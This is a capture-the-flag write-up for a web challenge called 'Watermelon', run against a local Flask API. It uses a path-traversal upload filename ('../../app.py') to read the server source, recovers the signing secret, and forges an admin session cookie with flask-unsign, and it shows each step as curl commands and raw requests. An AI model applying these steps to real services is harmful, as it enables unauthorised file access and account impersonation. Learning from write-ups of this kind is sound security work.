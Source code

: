 ```yaml
---
title: Watermelon
date: 2024-09-03
author: zacian
tags:
  - Web
draft: false
---
```


## Description

All love for Watermelons 🍉🍉🍉

Note: The code provided is without jailing, please note that when writing exploits.

`By SAFCSP`

----

Note : While making this writeup, the challenge infrastucture was already closed, so i had to setup the application manually 

## Intuition

From then given attachment or source code files we can find `app.py` which seems to only hold custom api functions or endpoints, other than that there is no templating engine used nor does any HTML or CSS for frontend interaction

So whatever we have to do, is by sending request to backed either using cURL, Burpsuite or Postman. In the following i choosed cURL and Brupsuite

## Solution

First i registerd a user. I did this using Brupsuite but i will show it using cURL request 

```
$ curl -X POST http://127.0.0.1:5000/register \
     -H "Content-Type: application/json" \
     -d '{"username": "user", "password": "password"}'

{"Message":"User registered successfully"}
```

Next let's login and get the session cookie

```
$ curl -v -X POST http://127.0.0.1:5000/login \
     -H "Content-Type: application/json" \
     -d '{"username": "user", "password": "password"}'

.....
< Set-Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk; HttpOnly; Path=/
< Connection: close
< 
{"Message":"Login successful"}
```

Now let's check what the profiles endpoint shows

```
$ curl http://127.0.0.1:5000/profile \ 
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;"

{"user_id":2,"username":"user"}
```

so we have a profile id of 2, let's guess that the user_id of admin should be 1. With that in mind let's move forward to the main functionality of the API, that is uploading files

But before we visit the `upload` endpoint let's first check the `files` endpoint

```
$ curl http://127.0.0.1:5000/files \  
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;"

{"files":[]}
```

As we can see, no files is being listed. So now upload a file

First let's create a file `echo HackThePlant > hack.txt`, then let's try to upload it

```
$ curl -X POST http://127.0.0.1:5000/upload \
    -b $'session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;' \                                                  
    -F $'file=@hack.txt'

{"Message":"File uploaded successfully","file_path":"files/2/hack.txt"}
```

After it's uploded successfully let's check our files one more time

```
$ curl http://127.0.0.1:5000/files \
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;" | jq
```

as you can see it's the same command from before but i used `jq` utility to format output into json data, which gives us the followig output

```json
{
  "files": [
    {
      "filename": "hello.txt",
      "filepath": "files/2/hello.txt",
      "id": 1,
      "uploaded_at": "Tue, 03 Sep 2024 15:31:53 GMT"
    }
  ]
}
```

so in order to read the file we just need to provide the file id

```
$ curl http://127.0.0.1:5000/file/1 \
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;"

HackThePlant
```

So how can we use the available feature in-order to read the flag or gain admin or read admin files, well this is possible by simply doing a path traversal

Say for example, the initial `file` directory is in the `app` directory and inside that directory other directories are created that are named with numbers. The main file that is `app.py` is in `app` directory. So we can go back two directories inorder to read the actual `app.py` file

But the question is what would that gives us ? and the answer is `SECRET_KEY`

For this part i used Burpsuite cause i am not that pro in cURL. First i captured the previous upload request using `--proxy http://127.0.0.1:8080`. Upon captureing we can see a POST with the following request and headers

```
POST /upload HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: curl/8.8.0
Accept: */*
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;
Content-Length: 210
Content-Type: multipart/form-data; boundary=------------------------WuH47fGlYwCHT6cJrXYTOG
Connection: close

--------------------------WuH47fGlYwCHT6cJrXYTOG
Content-Disposition: form-data; name="file"; filename="hack.txt"
Content-Type: text/plain

HackThePlant

--------------------------WuH47fGlYwCHT6cJrXYTOG--
```

now all we have to do is change the filename to something like `filename="../../app.py"`, and on sending the request we don't get any error

```json
{"Message":"File uploaded successfully","file_path":"files/2/../../app.py"}
```

Before trying to read the file we can visit the `files` endpoint to check the id number of the file we uploaded, it's not necessary if you know but since i tested it with quite a number of files, i had to check it

Anyways it was 4 and when i checked `/file/4`, i got the source code available in `app.py`, first thing i checked was at the very end of the code, in the admin section, which holds or returns the flag and i got the same place holder flag that was provided in the public source code

What we got was rather different. In the public code, the secret key is generated by `secrets.token_hex(20)` function but in the original challenge we got it as a hardcoded key string, which we then used to sign our own cookie using `flask-unsign`

```
flask-unsign --sign --cookie "{'user_id': 1, 'username': 'admin'}" --secret '8e55dcf0df3722bd29b6c8b4f1d1f934'
```

The secret used in the above was the original key used when the challenge was live, after getting the cookie we can read the flag by simply visiting `/admin` endpoint
